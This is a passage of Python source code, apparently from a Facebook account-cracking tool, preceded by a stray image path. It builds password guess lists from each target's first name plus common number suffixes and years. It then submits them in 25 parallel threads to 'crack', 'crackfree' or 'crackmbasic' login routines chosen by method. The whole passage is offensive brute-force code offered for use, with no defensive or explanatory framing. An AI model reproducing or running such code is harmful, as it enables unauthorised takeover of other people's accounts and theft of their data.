 			else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append("1122334455")
					pwv.append("1234512345")
					pwv.append("19901990")
					pwv.append("12345678900")
					pwv.append("19951995")
					pwv.append("20012001")
					pwv.append("20022002")
					pwv.append("20032003")
					pwv.append("20042004")
					pwv.append("20052005")


			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
def passwrd7():
	os.system('clear')
	banner()
	print("")
	with tred(max_workers=25) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(frs) == 3 or len(frs) == 4 or len(frs) == 5 or len(frs) == 6 or len(frs) == 7 or len(frs) == 8 or len(frs) == 9 or len(frs) == 10 or len(frs) == 11 or len(frs) == 12:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')